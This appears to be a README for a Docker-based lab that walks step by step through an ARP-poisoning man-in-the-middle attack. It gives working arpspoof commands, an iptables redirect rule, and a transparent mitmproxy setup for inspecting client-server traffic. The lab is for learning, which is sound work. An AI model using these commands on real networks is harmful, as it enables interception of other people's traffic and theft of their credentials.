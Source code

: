 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Enter as the attacker (you will need multiple sessions)

```bash
sudo docker exec -it attacker bash
```
---

## 3. Define rule

With that rule you're telling to intercept all incoming traffic on eth0 destined for port 80 and redirect it internally to port 8080

```bash
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```

---

## 4. Start ARP Poisoning

Run two `arpspoof` processes in different windows

```bash
arpspoof -i eth0 -t 192.168.90.101 192.168.90.100 
arpspoof -i eth0 -t 192.168.90.100 192.168.90.101 
```

---

## 5. Start mitmproxy

```bash
mitmproxy --mode transparent --showhost --listen-port 8080
```

You can now inspect all the requests and responses exchanged between the client and the server